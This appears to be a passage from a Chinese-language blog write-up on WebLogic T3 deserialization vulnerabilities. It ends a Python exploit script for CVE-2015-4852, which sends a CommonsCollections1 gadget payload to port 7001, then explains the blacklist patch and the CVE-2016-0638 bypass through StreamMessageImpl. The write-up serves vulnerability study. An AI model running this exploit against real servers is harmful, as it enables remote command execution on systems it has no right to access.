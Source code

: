 ```python
    t3header = binascii.a2b_hex(b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006") #t3协议头
    flag = binascii.a2b_hex(b"fe010000") #反序列化数据标志
    payload = data_len + t3header + flag + payload
    payload = struct.pack('>I', len(payload)) + payload[4:] #重新计算数据包长度
    sock.send(payload)

if __name__ == "__main__":
    host = "127.0.0.1"
    port = 7001
    gadget = "CommonsCollections1" #CommonsCollections1 Jdk7u21
    command = "touch /tmp/CVE-2015-4852"

    payload = get_payload1(gadget, command)
    exp(host, port, payload)
```

### 修复

补丁：2016年1月 p21984589_1036_Generic
修复方法是在resolveClass中引入了 ClassFilter.isBlackListed进行过滤，跟进weblogic.rmi.ClassFilter可以看到黑名单内容。

## CVE-2016-0638

weblogic.jms.common.StreamMessageImpl没在黑名单，在其反序列化时会读取一段数据并进行反序列化，我们可以把这段数据伪造成rce payload。

![image-20210815103726507](img/image-20210815103726507.png)

乱入一个QA
Q：StreamMessageImpl可以过黑名单很好理解，但是为啥CommonsCollections1依旧可以成功，CommonsCollections1(org.apache.commons.collections.functors)不是在黑名单里面吗？

A：答案是ServerChannelInputStream没有过滤到org.apache.commons.collections.functors（废话）。细节是这样的：ServerChannelInputStream的resolveClass检验到是StreamMessageImpl，不在黑名单里面，通过。然后在反序列化流程中会调用StreamMessageImpl的readExternal，readExternal内部又new了新的ObjectInputStream（以后简称ois）并从缓冲区读反序列化数据再次调用readObject，这里原生的ois就是原生的resolveClass方法没有过滤。

**有点类似二次反序列化利用。。**

